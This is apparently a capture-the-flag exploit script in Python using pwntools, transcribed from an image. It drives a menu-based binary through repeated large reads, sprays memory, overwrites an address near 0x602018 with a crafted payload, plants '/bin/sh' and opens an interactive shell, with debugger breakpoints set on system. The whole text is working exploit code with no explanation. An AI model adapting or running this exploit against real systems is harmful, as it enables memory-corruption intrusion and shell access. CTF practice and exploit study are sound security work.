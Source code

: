 ```python
	cn.sendline(str(Pad))
	cn.recvuntil('Content? (0/1): ')
	cn.sendline(str(content))
	if content != 0:
		cn.recvuntil('Input: ')
		cn.send(s[:Len-1])
		sleep(0.1)
		cn.send(s[Len-1:])

def call_read_2(Len,Pad,content=1):
	cn.recvuntil('Action: ')
	cn.sendline('1')
	cn.recvuntil('Size: ')
	cn.sendline(str(Len))
	cn.recvuntil('Pad')
	cn.sendline(str(Pad))
	cn.recvuntil('Content? (0/1): ')
	cn.sendline(str(content))


if not local:
	cn.recv()
	hhash = raw_input()
	cn.sendline(hhash)
cn.recv()
cn.sendline("i'm ready for challenge")


for i in range(4):
	call_read(0x3ff0,1000)
z('b*0x0000000000400DC2\nb*0x0000000000400E1B\nb system\nc')
call_read(0xff0,365)
call_read(0x3ff0,1)#0x735

for i in range(8):
	call_read(0x4000,1000)
call_read(0x4000,172)


pay = p64(0)*2+p64(0x0000000003fff000)*2+p64(0x0000000300000000)+p64(0)*8+p64(0)+p64(0x0000000000602018+5)
call_read_2(0x4000,0)
cn.send('Q'*0x1000)
sleep(0.1)
cn.send('Q'*0x1000)
sleep(0.1)
cn.send('Q'*0x1000)
sleep(0.1)
cn.send('Q'*0xfff)
sleep(0.1)
cn.send('Q'+pay)

pay = '/bin/sh\x00'+'\x00'*3+p64(0x400978)
pay = pay.ljust(0x60,'\x00')
call_read(0x60,0,pay,1)
#z()
cn.interactive()
```

